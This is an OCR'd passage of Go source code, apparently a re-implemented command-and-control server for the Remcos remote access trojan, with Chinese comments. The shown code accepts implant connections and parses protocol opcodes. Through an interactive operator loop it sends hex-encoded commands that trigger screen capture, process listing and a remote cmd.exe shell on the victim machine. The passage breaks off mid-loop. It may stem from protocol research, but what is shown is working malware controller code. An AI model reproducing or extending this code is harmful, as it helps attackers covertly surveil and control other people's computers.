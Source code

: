      fmt.Println("Server started. Listening on " + address + ":" + port)  
      
     for {  
      conn, err := listener.Accept()  
      if err != nil {  
       fmt.Println("Error accepting connection:", err.Error())  
       return  
      }  
      // 处理服务端连接  
      go handle_Remcos_Connection(conn)  
     }  
    }  
      
    func handle_Remcos_Connection(conn net.Conn) {  
     defer conn.Close()  
      
     recvdata, err := remcos_xx.RecvBuf(conn)  
     if err != nil {  
      fmt.Println(err.Error())  
      panic(0)  
     }  
     command := remcos_xx.ParseCommand(recvdata[:4])  
      
     switch hex.EncodeToString(command) {  
     case "0000004b":  
      fmt.Println("初始化连接......")  
      remcos_xx.Initconnect(conn)  
      go remcos_xx.Heartbeat(conn)  
     case "00000010":  
      remcos_xx.Command_Screen_Capture(conn)  
      return  
     case "00000093":  
      remcos_xx.Command_Command_Line(conn)  
      return  
     }  
      
     for {  
      fmt.Println("请输入指令：")  
      reader := bufio.NewScanner(os.Stdin)  
      if reader.Scan() {  
       text := reader.Text()  
       switch text {  
       case "screen_capture":  
        sendbuf, _ := hex.DecodeString("100000003133363339313535327c1e1e1f7c35307c1e1e1f7c307c1e1e1f7c2d317c1e1e1f7c30")  
        remcos_xx.Sendbuf(conn, sendbuf)  
       case "process_manager":  
        sendbuf, _ := hex.DecodeString("06000000")  
        remcos_xx.Sendbuf(conn, sendbuf)  
      
        recvdata, err = remcos_xx.RecvBuf(conn)  
        if err != nil {  
         fmt.Println(err.Error())  
         panic(0)  
        }  
        command = remcos_xx.ParseCommand(recvdata[:4])  
        if hex.EncodeToString(command) == "0000004f" {  
         remcos_xx.Command_Process_Manager(recvdata[4:])  
        }  
       case "command_line":  
        sendbuf, _ := hex.DecodeString("0e0000003133353730373732387c1e1e1f7c636d642e657865")  
        remcos_xx.Sendbuf(conn, sendbuf)  
        for {  
         reader = bufio.NewScanner(os.Stdin)  
         if reader.Scan() {  
          text = reader.Text()  